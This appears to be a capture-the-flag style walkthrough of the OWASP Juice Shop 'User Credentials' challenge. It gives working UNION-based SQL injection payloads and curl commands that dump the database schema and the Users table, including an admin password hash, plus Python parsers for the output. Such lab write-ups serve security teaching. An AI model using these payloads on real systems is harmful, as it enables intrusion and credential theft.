





# User Credentials

**Category:** [Injection](https://pwning.owasp-juice.shop/companion-guide/latest/part2/injection.html)

## Description

The challenge is to retrieve a list of all user credentials stored in the database via SQL injection.
It showcases the classic "data breach" scenario which still affects a considerable amount of companies today.

## Exploitation

When we load and intercept the main page of the shop, we notice an interesting endpoint.



It's a search endpoint, that let's us send data to the backend. This data will end up in a SQL query string.

Let's try a normal search first:



When we search for the term "apple" (`q=apple`), we get a few results. The product data we get from the backend has 9 fields (or columns).



Now let's try to provoke an error by closing the SQL string and also add an easy to find marker (`AAAA`).



We can see a few things here:
1. This is a SQLite database.
2. We are in a nested `WHERE` clause

SQLite stores it's schema data in the table `sqlite_schema`. It only has 5 columns.
```sql
CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);
```


With all the information gathered, we can craft a special query:

`zzzzz')) union select type, name, tbl_name, rootpage, sql, '6', '7', '8', '9' from sqlite_schema--`

The [SQL Union](https://www.w3schools.com/sql/sql_union.asp) operator enables us to combine the `select` statements from two different tables (as long as the number of columns matches).
Since we only have 5 columns of data from the schema table, we can add 4 dummy columns to match the 9 columns from the normal search result. The `zzzzz` at the start makes sure that the normal search doesn't return any data, so we only see data from the schema table.

Now we can `url encode` our query with [CyberChef](https://gchq.github.io/CyberChef/) to get the following:

`zzzzz%27%29%29%20union%20select%20type%2C%20name%2C%20tbl%5Fname%2C%20rootpage%2C%20sql%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20from%20sqlite%5Fschema--`

When we send this request, we get back interesting data:


The data is still in the shape of a product. We can use a custom [Schema Parse](#schema-parse) python tool to give it the right shape and save it in a json file.

```sh
curl -s http://10.0.2.3:3000/rest/products/search?q=zzzzz%27%29%29%20union%20select%20type%2C%20name%2C%20tbl%5Fname%2C%20rootpage%2C%20sql%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20from%20sqlite%5Fschema-- | python schema-parse.py > db-schema.json
```

This gives us the entire database schema for further exploitation.

:::note
At this point we solved the challenge: `Database Schema - Exfiltrate the entire DB schema definition via SQL Injection`
:::

Now we can see the structure of the user table:
```json
  ...
  {
    "type": "table",
    "name": "Users",
    "tbl_name": "Users",
    "rootpage": 2,
    "sql": "CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)"
  },
  ...
```

Once again, we can craft a special query:

`zzzzz')) union select username, email, password, role, deluxeToken, lastLoginIp, profileImage, totpSecret, isActive from Users--`

URL encode it:

`zzzzz%27%29%29%20union%20select%20username%2C%20email%2C%20password%2C%20role%2C%20deluxeToken%2C%20lastLoginIp%2C%20profileImage%2C%20totpSecret%2C%20isActive%20from%20Users--`

Bring it in the right shape with a custom [User Parse](#user-parse) tool and save it in a json file:
```sh
curl -s http://10.0.2.3:3000/rest/products/search?q=zzzzz%27%29%29%20union%20select%20username%2C%20email%2C%20password%2C%20role%2C%20deluxeToken%2C%20lastLoginIp%2C%20profileImage%2C%20totpSecret%2C%20isActive%20from%20Users-- | python user-parse.py > users.json
```

```json title="users.json"
[
  {
    "username": "",
    "email": "J12934@juice-sh.op",
    "password": "3c2abc04e4a6ea8f1327d0aae3714b7d",
    "role": "admin",
    "deluxeToken": "",
    "lastLoginIp": "",
    "profileImage": "assets/public/images/uploads/defaultAdmin.png",
    "totpSecret": "",
    "isActive": 1
  },
  ...
]
```

This solves the challenge `Retrieve a list of all user credentials via SQL Injection`.


## Custom Tools

### Schema Parse

This tool maps the schema result columns to it's original names.

```py title="schema-parse.py"
import sys
import json

data = json.load(sys.stdin)

schema = [
    {
        "type": item["id"],
        "name": item["name"],
        "tbl_name": item["description"],
        "rootpage": item["price"],
        "sql": item["deluxePrice"]
    }
    for item in data["data"]
]

print(json.dumps(schema, indent=2, ensure_ascii=True))
```

### User Parse

This tool maps the user result columns to it's original names.

```py title="user-parse.py"
import sys
import json

data = json.load(sys.stdin)

schema = [
    {
        "username": item["id"],
        "email": item["name"],
        "password": item["description"],
        "role": item["price"],
        "deluxeToken": item["deluxePrice"],
        "lastLoginIp": item["image"],
        "profileImage": item["createdAt"],
        "totpSecret": item["updatedAt"],
        "isActive": item["deletedAt"]
    }
    for item in data["data"]
]

print(json.dumps(schema, indent=2, ensure_ascii=True))
```